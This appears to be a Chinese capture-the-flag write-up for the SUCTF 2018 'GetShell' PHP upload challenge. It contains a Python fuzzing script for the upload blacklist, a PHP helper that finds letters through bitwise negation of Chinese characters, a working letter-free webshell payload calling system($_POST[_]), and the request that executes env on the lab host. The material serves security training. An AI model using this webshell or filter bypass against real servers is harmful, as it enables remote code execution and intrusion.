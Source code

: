 # [SUCTF 2018]GetShell

#PHP代码审计 #RCE #取反 #waf #文件上传

打开网页发现 upload 文件上传网页。发现源码：

```php
if($contents=file_get_contents($_FILES["file"]["tmp_name"])){
    $data=substr($contents,5);
    foreach ($black_char as $b) {
        if (stripos($data, $b) !== false){
            die("illegal char");
        }
    }     
} 
```

- stripos — 查找字符串首次出现的位置（不区分大小写）
- substr($contents,5) 返回 contents 索引为5及以后的字符串

只要我们构造的脚本存在 black_char 里面的字符，上传就失败，所以我们要知道 black_char 里面有哪些字符，编写 fuzz 脚本

```python
import HackRequests

# 可显示字符
def ascii_str():
	str_list=[]
	for i in range(33,127):
		str_list.append(chr(i))
	return str_list
str_list = ascii_str()

hack = HackRequests.hackRequests()
raw = '''
POST /index.php?act=upload HTTP/1.1
Host: e5df207e-2577-4c46-9ab8-6f153d1a7ffe.node4.buuoj.cn:81
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryGEajwE83YmdBpDtO

------WebKitFormBoundaryGEajwE83YmdBpDtO
Content-Disposition: form-data; name="file"; filename="1"

12345{0}
------WebKitFormBoundaryGEajwE83YmdBpDtO
Content-Disposition: form-data; name="submit"

提交
------WebKitFormBoundaryGEajwE83YmdBpDtO--
'''
for char in str_list:
    hh = hack.httpraw(raw.format(char))
    test_str = hh.text()
    if 'Stored' in test_str:
        print("✅", char)
    else:
        print("❌", char)
```

- 只有 `$ ( ) . ; = [ ] _ ~`，没有被过滤
- HackRequests 模块，见 https://github.com/yym68686/hack-requests，下载文件https://github.com/yym68686/hack-requests/blob/master/HackRequests/HackRequests.py放在目录下，这个版本修复了Content-Length 与请求体真实长度不相等造成请求失败的问题

一个正常的 webshell 脚本应该是

```php
system($_POST[_]);
```

- system — 执行外部程序，并且显示输出

但现在所有的英文字母都不能用，所以要将每一个英文字母替换一下，比如 r 可以表示为

```php
<?php
echo ~'半'[1];
// r
```

所以我们可以通过遍历一个很大的中文字符集，通过取反找到 system 的每一个字母。编写脚本

```php
<?php
error_reporting(0);
 
$s = '你归来是诗离去成词且笑风尘不敢造次我糟糠能食粗衣也认煮酒话桑不敢相思你终会遇见这么一个人他会用整个人生将你精心收藏用漫长岁月把你妥善安放怕什么岁月漫长你心地善良,终会有一人陪你骑马喝酒走四方为你唱一首歌歌中有你亦有我我的泪我的魅将都融入到我的歌声里飘向孤独的你你是否听到了我的歌曲是否也在黯然落泪？岁月匆匆人生漫漫漠视了真情谁是站谁的谁已经变得不重要至少曾经已拥有长相思爱相随时空隔离谁相陪？花前月下心随风相思一片梦成空笑看往事红尘中多少凝思付清秋？长相思泪相随曾经谁是谁的谁？孤星冷月泪盈盈念曾经相逢心长时光短让人垂泪到天明长相思苦相随窗前双燕比翼飞日暮情人成双对于时光无垠的田野中没有早一步也没有晚一步恰好遇见了想要遇见的人这是一段多少美丽而令人心动的尘缘于爱情来说相见恨早会恨晚站会留下梨花带雨的疼痛而于友情来说无论太早或者太迟都是一份值得珍惜的情缘晚秋缓缓走晚了我的轮回疏雨一刻半疏笼起我深深的梦馀昨日遗憾寸寸疏雨挑涸泪烛落笔无处飒晚秋彼晚秋未晚懒我疏雨疏风去归我初心还我清梦唯我在晚秋未晚里守望那疏雨半疏的麦田待下一片梧桐叶复舞我亦拾起我的旧梦旧梦清寒一枕乱我眸中晚秋躞蹀的雨疏疏拍窗我的晚秋疏雨半疏疏开昨日我的梦情缘如海深邃澈蓝干涸成妄谈一湛清湖泪潸然一颦寒眉锁阑珊只为你而欣悦只因你而清泪斑斑你是我的前世吧为何沁泊在我的心怀缱绻起涟波千层驻我心扉知我情怀从此我已习惯你的嘘寒问暖懒倦地痴卧在你的胸怀红霞满腮昨天再苦都要用今天的微笑把它吟咏成一段幸福的记忆；曾经再累都要用当站下的遗忘穿越万道红尘让心波澜不惊人生最大的荣耀不在于从不跌倒而在于每一次跌倒后都能爬起来回忆是件很累的事就像失眠时怎么躺都不对的样子有时候往往直到离开在回忆里才能知道自己有多喜欢一座城';

function mb_str_split( $string ) {
    return preg_split('/(?!^)(?!$)/u', $string); 
}

$shell = "system";
$result = "";
for ($x=0;$x<strlen($shell);$x++) {
	foreach (mb_str_split($s) as $c) {
        if ($shell[$x] == ~($c{1})) {
            $result .= $c;
            break;
        }
	}
}
echo $result;
```

- `(?<!^)(?!$)`匹配所有不是开头结尾的空字符。负向预查语法`(?!pattern)`，要求做匹配的时候，必须不满足pattern这个条件

构造 payload

```php
<?=
$_=([]==[]); // $_ = 1
$__=~区[$_].~冈[$_].~区[$_].~勺[$_].~皮[$_].~针[$_];// $__ = system
$___=~码[$_].~寸[$_].~小[$_].~欠[$_].~立[$_];// $___ = _POST
$__($$___[_]);// system($_POST[_]);
```

- `~'半'[1]` 中的 1 会被过滤，所以使用`[]==[]`代替 1

删掉注释，空格后

```php
<?=
$_=([]==[]);
$__=~区[$_].~冈[$_].~区[$_].~勺[$_].~皮[$_].~针[$_];
$___=~码[$_].~寸[$_].~小[$_].~欠[$_].~立[$_];
$__($$___[_]);
```

上传文件后，构造 POST 请求，用 BurpSuite 发送

```
POST /upload/c47b21fcf8f0bc8b3920541abd8024fd.php HTTP/1.1
Host: f863e2b3-426d-4645-93fe-236eca666763.node4.buuoj.cn:81
Content-Type: application/x-www-form-urlencoded

_=env
```

得到 flag。

Reference

https://www.leavesongs.com/PENETRATION/webshell-without-alphanum.html